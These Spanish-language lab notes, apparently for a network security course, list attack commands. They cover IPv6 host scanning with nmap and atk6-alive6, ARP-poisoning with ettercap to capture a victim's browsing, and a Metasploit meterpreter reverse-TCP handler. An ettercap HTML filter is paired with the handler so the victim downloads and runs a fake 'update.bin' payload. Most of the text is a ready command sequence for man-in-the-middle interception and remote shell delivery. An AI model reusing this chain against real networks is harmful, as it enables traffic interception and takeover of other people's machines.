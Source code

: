 
# d) Segmento 2002 (script)

- python3 ipv4_to_ipv6.py

- nmap -6 -iL direcciones_ipv6.txt

- nmap -6 -iL direcciones_ipv6.txt -p 80,443 -sV → Puertos 80 y 443

- atk6-alive6 ens33 → muestra direcciones vivas en el segmento.

- ping -6 -I ens33 ff02::1 → Aquí lo que le decimos es que haga un ping -6 a ens33 a la dirección ff02::1 que lo que hace es redireccionar un mensaje a toda la red por multicast, en resumen redirecciona un ping, es una dirección link-local multicast

# f) URLs visitadas por la víctima

**APAGAR ARPON:**
- systemctl stop arpon@ens33
- reboot

**PROBAR ESTO:**
- añadir en el ettercap: -P unified_sniffing

**PROCEDIMIENTO NORMAL:**
- Cambiar en /etc/ettercap/etter.conf los valores de ec_gid y ec_uid a 0

- remote_browser = "lynx http://%host%url" → Opcional. Si solo quieres que se centre en un navegador en específico

- ettercap -Tq -i ens33 -w ficherito.pcap -P remote_browser -M arp:remote /10.11.48.196// /10.11.48.1//

# g) Metasploit + Ettercap

TODO: Hacer zip con permisos de ejecución en el payload y un README. Cambiar el filtro:
- etterfilter html.filter –o filter.ef

## Atacante:
### 1º terminal
- msfconsole
- use exploit/multi/handler
- set payload linux/x64/meterpreter_reverse_tcp
- set lhost 10.11.49.52
- set lport 1234

### 2º terminal
- ettercap -i ens33 -Tq -F filtroSecurity.ef -M arp:remote /10.11.48.195// /10.11.48.1//

## Víctima
- lynx http://10.1.49.52
- unzip update.zip
- ./update.bin
